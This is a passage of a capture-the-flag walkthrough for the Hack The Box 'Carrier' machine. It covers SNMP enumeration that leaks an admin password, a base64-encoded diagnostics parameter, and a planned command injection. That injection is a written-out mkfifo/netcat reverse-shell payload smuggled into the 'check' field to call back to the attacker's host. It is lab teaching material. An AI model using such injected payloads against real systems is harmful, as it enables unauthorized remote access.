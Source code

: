 I found a pdf file that identifies the error codes that we saw earlier on the welcome page.

![errorcodes]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/carrier/errorcodes.png)

One of the codes says that the default `admin` user password is set to chassis number.
Let's check the SNMP server for some information.

```bash
root@kali:~/Carrier# snmpwalk -v2c -c public 10.10.10.105 .1
Created directory: /var/lib/snmp/mib_indexes
iso.3.6.1.2.1.47.1.1.1.1.11 = STRING: "SN#NET_45JDX23"
iso.3.6.1.2.1.47.1.1.1.1.11 = No more variables left in this MIB View (It is past the end of the MIB tree)
```

Looks like the password. I will use (`admin:NET_45JDX23`) as the login and see where it takes me.

![adminlogin]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/carrier/loginasadmin.png)

Excellent! Going to the diagnostics page, I see a funny `ps` command like output.

![diagpage]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/carrier/diagpage.png)

When I view the page source, I could see a base64 encoded value.

![base64]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/carrier/base64.png)

```bash
root@kali:~/Carrier# echo "cXVhZ2dh" | base64 -d
quagga
```

Using Burpsuite as a proxy, I got the following request...

```http
POST /diag.php HTTP/1.1
Host: 10.10.10.105
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.105/diag.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Cookie: PHPSESSID=forvn6e8kjv4bkdrnb874q2026
Connection: close
Upgrade-Insecure-Requests: 1

check=cXVhZ2dh
```

## Shell as a user

The `check` parameter gets value `quagga` and then displays the diagnostics for that process. So, if we did something like `quagga; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <myip> 4444 >/tmp/f` as the value for check parameter and start a `ncat` listener on my machine, I should get a shell. Let's try it (Don't forget to convert the command to Base64).
